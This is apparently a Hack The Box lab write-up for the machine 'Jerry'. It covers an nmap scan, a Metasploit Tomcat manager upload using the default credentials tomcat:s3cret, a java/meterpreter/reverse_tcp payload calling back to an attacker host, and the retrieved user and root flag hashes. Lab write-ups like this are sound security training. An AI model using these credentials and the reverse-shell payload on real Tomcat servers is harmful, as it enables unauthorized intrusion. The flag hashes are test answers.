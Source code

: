 <p align="center">
  <img src="https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Jerry/jerry.png" alt="Jerry"/>
</p>

\
## Enumeration

\
Start with an nmap scan:

```
nmap -A 10.10.10.95
```

```
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2018-07-26 15:18 EDT
Nmap scan report for 10.10.10.95
Host is up (0.10s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional
Aggressive OS guesses: Microsoft Windows Server 2012 (90%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 7 Professional (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   102.96 ms 10.10.14.1
2   104.81 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.45 seconds
```

\
## Exploitation

\
Looks like the only port open is 8080, which is running Apache Tomcat 1.1.  Some research pointed me to a [metasploit module](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login) for logging into Apache Tomcat using default credentials.  Using this I got the credentials tomcat:s3cret.  Now we can use the [tomcat manager authenticated upload module](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). This module can be used to execute a payload on Apache Tomcat servers that have an exposed “manager” application. The payload is uploaded as a WAR archive containing a JSP application using a POST request against the /manager/html/upload component:

```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword s3cret
HttpPassword => s3cret
msf exploit(tomcat_mgr_upload) > set RHOST 10.10.10.95
RHOST => 10.10.10.95
msf exploit(tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > check
[*] 10.10.10.95:8080 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > set lhost 10.10.14.232
lhost => 10.10.14.232
```

\
We got a meterpreter shell on the machine, and from there I was able to navigate to the file containing both the user and root hashes:

```
meterpreter > dir
meterpreter > cd c:\
meterpreter > cd \Users
meterpreter > cd \Administrator
meterpreter > cd \Desktop
meterpreter > cd \flags
meterpreter > download 2 for the price of 1.txt
```

## User and Root Files

\
I then pulled it back to my local machine to view both flags:
```
root@kali:~# cat 2\ for\ the\ price\ of\ 1.txt 
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```


